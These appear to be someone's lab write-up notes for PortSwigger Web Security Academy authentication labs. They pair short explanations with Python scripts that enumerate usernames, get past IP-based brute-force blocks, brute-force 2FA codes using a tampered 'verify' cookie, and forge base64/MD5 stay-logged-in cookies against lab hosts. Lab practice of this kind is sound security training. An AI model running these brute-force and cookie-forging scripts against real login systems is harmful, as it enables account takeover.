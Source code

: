 # Authentication vulnerabilities

## Lab: Username enumeration via subtly different responses

Invalid username message: `Invalid username or password.`  
Valid username message: `Invalid username or password`(a dot missing)  

## Lab: Broken brute-force protection, IP block

Defense: limit the wrong attemps per IP, but reset conter when log in successfully.
Bypass: X times attemps and followed by a correct login.

```python
us_f = open("username", "r")
ps_f = open("password", "r")
passwords = ps_f.readlines()
ps_t = open("password_tmp", "w")
us_t = open("username_tmp", "w")
# wiener&peter are valid
for i in range(len(passwords)):
    if (i % 2 == 0):
        us_t.write("wiener\n")
        ps_t.write("peter\n")
    us_t.write("carlos\n")
    ps_t.write(passwords[i])
    print(passwords[i], end='')
```

## Lab: Username enumeration via account lock

```python
us_f = open("username", "r")
usernames = us_f.readlines()
ps_f = open("password", "r")
passwords = ps_f.readlines()
ps_t = open("password_tmp", "w")
us_t = open("username_tmp", "w")

for i in range(len(usernames)):
    us_t.write(usernames[i])
    ps_t.write(passwords[0])
    us_t.write(usernames[i])
    ps_t.write(passwords[1])
    us_t.write(usernames[i])
    ps_t.write(passwords[2])

ps_t.close()
us_t.close()
```

## Lab: Username enumeration via account lock
- First check with username is valid. In this lab, different message is gived, check response text length.
- Brute force password. (this lab is easy, without REAL account lock.)

```python
usf = open("usernames", "r")
usernames = usf.readlines() 

import requests

url = 'https://1a7c0051045b95cf81b74d4c0034003f.web-security-academy.net/login'
for user in usernames:
    for i in range(5):
        data = {
            'username': user[:-1], # IMPORTANT!! [:-1]! WITHOUT breaklines.
            'password': 'whatever'
        }
        response = requests.post(url, data=data)

        print(f"Status Code: {response.status_code}", end='. ')
        # print(f"Response Content: {response.text}")
        # print(user, end='')
        print(len(response.text), end=".")
        if ("Invalid username or password." in response.text):
            # print("Invalid username or password")
            print(user)
        elif ("You have made too many incorrect login attempts" in response.text):
            print("Also Found it: ", user)
        else:
            print("Found it: ", user)
```

## Lab: 2FA broken logic

Bypass:
1. change 2FA Code request cookie, `verify=carlos`
2. brute-force 2FA Code validation request:

```python
import requests

url = 'https://0afc00e803f4920e81f98935000a005d.web-security-academy.net/login2'

# Cookies
cookies = {
    'verify': 'carlos',
    'session': 'eErTh9MMiwoQBuIpyzr00GPQULR0tZKe'
}

for i in range(191, 9999):
    string = f"{i:04d}"
    # Data
    data = {
        'mfa-code': string,
    }

    # Make the POST request
    response = requests.post(url, cookies=cookies, data=data)

    # Print the response
    # print(f"Status Code: {response.status_code}")
    if ("Incorrect security code" not in response.text):
        print("Found it.", string)
    else:
        print(string, end=" ")
```

## Lab: Brute-forcing a stay-logged-in cookie

Bypass: `stay-logged-in` is `base64(username:md5(password))`. Brute-force

```python
# Lab: 2FA broken logic

import hashlib
import base64
import requests

url = 'https://0a5b009a039c341d800f7b37004a0036.web-security-academy.net/my-account?id=carlos'

# Cookies
for password in passwords:
    cookies = {
        'stay-logged-in': base64.b64encode("carlos:".encode() + hashlib.md5(password[:-1].encode()).hexdigest().encode()).decode('utf-8')
    }

    response = requests.post(url, cookies=cookies)

    # print(response.status_code, response.text)

    if ("Your username" in response.text):
        print("Found it.", password[:-1])
    else:
        print(password[:-1])
```